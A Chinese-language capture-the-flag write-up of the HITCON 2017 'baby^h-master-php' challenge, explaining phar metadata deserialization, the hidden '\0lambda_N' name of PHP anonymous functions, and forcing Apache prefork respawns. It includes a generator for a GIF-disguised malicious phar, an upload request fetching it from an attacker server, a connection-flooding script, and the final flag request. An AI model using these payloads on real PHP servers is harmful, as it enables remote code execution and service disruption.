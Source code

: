 分享本题自制Dockerfile : [Github](https://github.com/Pr0phet/hitconDockerfile/tree/master/hitcon-ctf-2017/baby%5Eh-master-php-2017)

这题在比赛过程是0解......真的太难了...体现了Orange大大对php和中间件的深刻理解Orz 膜拜

题目源码:
```php
<?php
$FLAG = create_function("", 'die(`/read_flag`);');
$SECRET = `/read_secret`;
$SANDBOX = "/var/www/data/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
@mkdir($SANDBOX);
@chdir($SANDBOX);

if (!isset($_COOKIE["session-data"])) {
	$data = serialize(new User($SANDBOX));
	$hmac = hash_hmac("sha1", $data, $SECRET);
	setcookie("session-data", sprintf("%s-----%s", $data, $hmac));
}

class User {
	public $avatar;
	function __construct($path) {
		$this->avatar = $path;
	}
}

#######################key class################################
class Admin extends User {
	function __destruct() {
		$random = bin2hex(openssl_random_pseudo_bytes(32));
		eval("function my_function_$random() {"
			. "  global \$FLAG; \$FLAG();"
			. "}");
		$_GET["lucky"]();
	}
}
#######################key class################################
function check_session() {
	global $SECRET;
	$data = $_COOKIE["session-data"];
	list($data, $hmac) = explode("-----", $data, 2); #从cookie中取出data和hmac签名
	if (!isset($data, $hmac) || !is_string($data) || !is_string($hmac)) #判空
	{
		die("Bye");
	}

	if (!hash_equals(hash_hmac("sha1", $data, $SECRET), $hmac)) #判断data加密之后和hmac签名是否对应
	{
		die("Bye Bye");
	}

	$data = unserialize($data); #反序列化
	if (!isset($data->avatar)) #如果反序列化之后的data包含的类中无avatar成员,退出
	{
		die("Bye Bye Bye");
	}

	return $data->avatar;
}

function upload($path) {
	$data = file_get_contents($_GET["url"] . "/avatar.gif");
	if (substr($data, 0, 6) !== "GIF89a") {
		die("Fuck off");
	}

	file_put_contents($path . "/avatar.gif", $data);
	die("Upload OK");
}

function show($path) {
	if (!file_exists($path . "/avatar.gif")) {
		$path = "/var/www/html";
	}

	header("Content-Type: image/gif");
	die(file_get_contents($path . "/avatar.gif"));
}

$mode = $_GET["m"];
if ($mode == "upload") {
	upload(check_session()); #从cookie中提取data反序列化后的avatar成员并将其内容作为路径, 请求url中的内容写到该路径下的avatar.gif文件中
} else if ($mode == "show") {
	show(check_session()); #从cookie中提取data反序列化后的avatar成员并将其内容作为路径, 展示该目录下的avatar.gif
} else {
	highlight_file(__FILE__);
}
```
思路:
- 首先分析代码, 首先分配了一个匿名函数给flag变量, 执行了这个函数就会出flag, 所以整道题的核心就是执行这个匿名函数
- 题目主要有两个功能, 一个是在沙盒文件夹任意写入一个gif, 一个是根据cookie中的路径查看这个gif
- 一开始的想法是 -----> admin是关键类,需要通过反序列化之后的析构函数去触发其中的eval -----> 通过lucky参数去调用这个输出flag的函数. 而反序列化的data是从cookie中获得, 那先尝试一下伪造cookie,但是其实cookie后半部分是用hash_hmac和一个未知的秘钥生成的一个签名, 基本上无法伪造.....所以放弃这个想法
- 咋一看好像代码里面并没有其他能够反序列化的地方了, 然后就来到了本题的第一个考点--php中解析Phar归档中的Metadata的时候可能会有反序列化的操作, 文档中描述的Phar::getMetadata操作(http://php.net/manual/zh/phar.getmetadata.php)
> - Phar?(方便开发者打包和发布php应用的类似于Java中的Jar的一种文件)
> ![What is Phar?(官方文档)](http://upload-images.jianshu.io/upload_images/6949366-a854e4d73e1be186.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
> - Phar归档的结构
> ![Phar(官方文档)](http://upload-images.jianshu.io/upload_images/6949366-1a263bb5852f77a8.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
> - Metadata : Phar归档中可用来描述此文档的一段序列化之后的字符串![usage of Metadata(官方文档)](http://upload-images.jianshu.io/upload_images/6949366-f850f6f9d027f2df.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
> - phar_parse_metadata的初始化调用, 具体PHP源码在ext/phar/phar.c
执行流程大致为: 
....--> phar_open_from_filename(1512行的php_stream_open_wrapper函数可以得知此函数处理phar://打开本地phar文件 1531行调用下一个函数)![phar_open_from_filename](http://upload-images.jianshu.io/upload_images/6949366-a2c524ab1ddaff2a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
--> phar_open_from_fp(1727行调用下一个函数)
![phar_open_from_fp](http://upload-images.jianshu.io/upload_images/6949366-f61c565686e8f90f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
--> phar_parse_pharfile(1038、1122行调用下一个函数)
![1038行](http://upload-images.jianshu.io/upload_images/6949366-4d37aa50d88c5bea.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![1122行](http://upload-images.jianshu.io/upload_images/6949366-8c514575ce533262.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
--> phar_parse_metadata(函数在609行)
![phar_parse_metadata函数](http://upload-images.jianshu.io/upload_images/6949366-581792f19940680a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 而且题目内upload操作提供了``file_get_content()``函数 其中地址可控,可以利用``phar://``协议读取本地phar文件(phar协议不支持远程文件[The *phar* stream wrapper does not operate on remote files, and cannot operate on remote files, and so is allowed even when the allow_url_fopen and allow_url_include INI options are disabled.
](http://php.net/manual/zh/phar.using.stream.php)),也就是说只要构造一个phar利用upload写到服务器目录, 其中metadata设置为Admin对象,就可以进入Admin的析构函数了
- 接下来的问题就是如何猜出那个随机数?
答案是基本上猜不出来https://security.stackexchange.com/questions/101112/can-i-rely-on-openssl-random-pseudo-bytes-being-very-random-in-php openssl_random_pseudo_bytes是加密级别的伪随机数生成器https://en.wikipedia.org/wiki/Cryptographically_secure_pseudorandom_number_generator 这是题目第二个死胡同
- 然后就到了题目的第二个考点, 匿名函数其实是有真正的名字 从注册匿名函数的源码(Zend/zend_builtin_functions.c 1854行) 大佬还对这个逻辑戏谑了一番 ![anonymous_functions_has_name](http://upload-images.jianshu.io/upload_images/6949366-5c491572afb463d9.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![name_of_anonymous_functions](http://upload-images.jianshu.io/upload_images/6949366-3f7ca4a955141198.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
首先名字第一个字符被替换成了\0,也就是空字符 ,然后do操作将lambda_%d中的%d格式化成匿名函数的个数+1(从1开始)
所以最后得出的匿名函数的真正名字为:\0lambda_%d(%d格式化为当前进程的第n个匿名函数)
- 但是我们并不能知道当前的匿名函数到底有多少个, 因为每访问一次题目就会生成一个匿名函数; 最后就引出了最后一个考点, Apache-prefork模型(默认模型)在接受请求后会如何处理,首先Apache会默认生成5个child server去等待用户连接, 默认最高可生成256个child server, 这时候如果用户大量请求, Apache就会在处理完MaxRequestsPerChild个tcp连接后kill掉这个进程,开启一个新进程处理请求(这里猜测Orange大大应该修改了默认的0,因为0为永不kill掉子进程 这样就无法fork出新进程了) 在这个新进程里面匿名函数就会是从1开始的了

最后步骤分别是:
1. 先生成符合要求的phar放入自己的vps中, 生成代码为
```php
<?php
class Admin{
 public $avatar = 'xxx';
}
$p = new Phar(__DIR__.'/avatar.phar',0);
$p['file.php'] = '<?php ?>';
$p->setMetadata(new Admin());
$p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
rename(__DIR__.'/avatar.phar',__DIR__.'/avatar.gif');
?>
```
2. 再请求``?m=upload&url=http://xxx.xxx.xxx.xxx``
3. 启动Orange大大写的fork脚本
```python
# coding: UTF-8
# Author: orange@chroot.org
# 

import requests
import socket
import time
from multiprocessing.dummy import Pool as ThreadPool
try:
    requests.packages.urllib3.disable_warnings()
except:
    pass

def run(i):
    while 1:
        HOST = '127.0.0.1'
        PORT = 12344
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((HOST, PORT))
        s.sendall('GET / HTTP/1.1\nHost: 127.0.0.1\nConnection: Keep-Alive\n\n')
        # s.close()
        print 'ok'
        time.sleep(0.5)

i = 8
pool = ThreadPool( i )
result = pool.map_async( run, range(i) ).get(0xffff)
```
4. 请求``?m=upload&url=phar:///var/www/data/xxx&lucky=%00lambda_1``得到flag
![flag](http://upload-images.jianshu.io/upload_images/6949366-f60a8a6d06cfe6e6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


参考:
https://github.com/orangetw/My-CTF-Web-Challenges
P神的小秘圈分享
http://php.net/manual/zh/book.phar.php
http://blog.jobbole.com/91920/
https://yq.aliyun.com/ziliao/55320
https://www.zhihu.com/question/23786410